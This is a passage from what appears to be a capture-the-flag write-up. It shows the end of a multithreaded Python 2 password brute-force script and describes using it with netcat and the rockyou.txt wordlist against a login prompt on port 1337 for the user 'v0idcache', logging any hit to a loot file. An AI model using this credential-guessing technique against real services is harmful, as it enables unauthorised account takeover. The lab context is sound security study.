 ```
			self.queue.task_done()
 
queue = Queue.Queue()
 
threads = []
for i in range(1, 50) : # Number of threads
	job = JobThread(queue, i) 
	job.setDaemon(True)
	job.start()
	threads.append(job)
 
for password in passwordList :
	queue.put(password)     # Push usernames onto queue
 
queue.join()
 
# wait for all threads to exit 
 
for item in threads :
	item.join()
 
print "Testing Complete!"
```
After finding `1337` open I tried to connect with netcat. We received a prompt asking for `Username:` and `Password:` the following attempts to connect to this port using the `v0idcache` username and the rockyou.txt wordlist. If it receives a message other than `'Fail'` it will print the success to a "loot file". I split screen my laptop with the script running on one side and my loot file open on the other and walked away. Once the script found the password, it popped up in my file.
